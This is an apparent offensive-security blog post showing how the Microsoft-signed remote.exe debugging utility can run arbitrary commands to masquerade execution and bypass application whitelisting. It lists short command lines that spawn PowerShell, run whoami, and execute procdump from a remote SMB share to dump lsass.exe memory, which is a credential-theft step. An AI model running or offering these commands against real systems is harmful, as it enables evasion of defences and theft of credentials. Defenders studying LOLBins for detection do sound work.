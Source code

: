 ```yaml
---
title: Execution and AWL Bypass Using LOLBin Remote.exe
date: "2021-01-05"
---
```


Masquerading execution behind the Microsoft signed binary remote.exe<!-- end -->.

If you're not familiar with the term LOLBins by now, you'd better catch up to speed because that's the trend for the foreseeable future. Briefly explained, "LOLBins" or "Living Off the Land Binaries" are non-malicious binaries that can be used in an unintended way to aid attackers in evading defenses. A more thorough explanation can be found <a href="https://blog.teamascend.com/lolbins">here</a>.

# Remote.exe

Remote.exe is a stand-alone executable that comes with the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/">debugging tools for Windows</a>. Microsoft's definition of remote.exe is as follows:

>The remote.exe utility is a versatile server/client tool that allows you to run command-line programs on remote computers.
>This utility has a large number of uses. For example, when you are developing software, you can compile code with the processor and resources of a remote computer while you perform other tasks on your computer.

It's a pretty impressive tool, let's use it for our purposes now.

# Using Remote.exe

### To execute a file or command:

    remote.exe /s "file.exe" anything

### Spawn PowerShell.exe:
    
    remote.exe /s "powershell.exe" d0x

![Powershell-Spawn-Cmd](./powershell-spawn-cmd.png)

![Powershell-Spawn](./powershell-spawn.png)

### Execute a single command:

    remote.exe /s "powerShell.exe -c whoami" mrd0x

![Whoami](./whoami.png)

### Execute a remote file:

    remote.exe /s "\\10.0.0.187\proc\procdump64.exe -ma lsass.exe lsass.dmp" anything

![Procdump](./procdump.png)

# Use Cases

* Masquerading execution under a Microsoft signed binary
* AWL Bypass